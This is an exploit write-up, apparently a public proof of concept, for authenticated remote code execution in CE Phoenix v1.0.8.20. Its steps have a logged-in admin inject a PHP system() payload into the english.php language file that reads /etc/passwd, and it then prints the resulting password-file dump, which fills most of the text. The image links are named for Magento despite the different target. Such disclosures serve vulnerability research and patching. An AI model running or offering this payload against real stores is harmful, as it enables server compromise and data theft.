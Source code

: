 ## Exploit Title: CE Phoenix v1.0.8.20 - Remote Code Execution (RCE) (Authenticated)
### Date: 2023-11-25
### Exploit Author: tmrswrr
### Category: Webapps
### Vendor Homepage: [CE Phoenix](https://phoenixcart.org/)
### Version: v1.0.8.20
### Tested on: [Softaculous Demo - CE Phoenix](https://www.softaculous.com/apps/ecommerce/CE_Phoenix)

### POC:

<img src="https://raw.githubusercontent.com/capture0x/Magento-ver.-2.4.6/main/1.png" alt="Magento Image" width="1000">
<img src="https://raw.githubusercontent.com/capture0x/Magento-ver.-2.4.6/main/2.png" alt="Magento Image" width="1000">


1. **Login to admin panel:** 
    - Visit: `https://demos6.softaculous.com/CE_Phoenixvkqhcarjmw/admin/define_language.php?lngdir=english`
    
2. **Access english.php:**
    - Click on `english.php` and inject the payload: 
    ```
    <?php echo system('cat /etc/passwd'); ?>
    ```
    
3. **Save Changes:**
    - Save the modified file.

4. **View Results:**
    - Visit the main page: `https://demos6.softaculous.com/CE_Phoenixvkqhcarjmw/`
    - You will see the following result:


root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-bus-proxy:x:999:998:systemd Bus Proxy:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:998:997:User for polkitd:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:997:995::/var/lib/chrony:/sbin/nologin
soft:x:1000:1000::/home/soft:/sbin/nologin
saslauth:x:996:76:Saslauthd user:/run/saslauthd:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
emps:x:995:1001::/home/emps:/bin/bash
named:x:25:25:Named:/var/named:/sbin/nologin
exim:x:93:93::/var/spool/exim:/sbin/nologin
vmail:x:5000:5000::/var/local/vmail:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/false
webuzo:x:993:993::/home/webuzo:/bin/bash
apache:x:992:991::/home/apache:/sbin/nologin
apache:x:992:991::/home/apache:/sbin/nologin

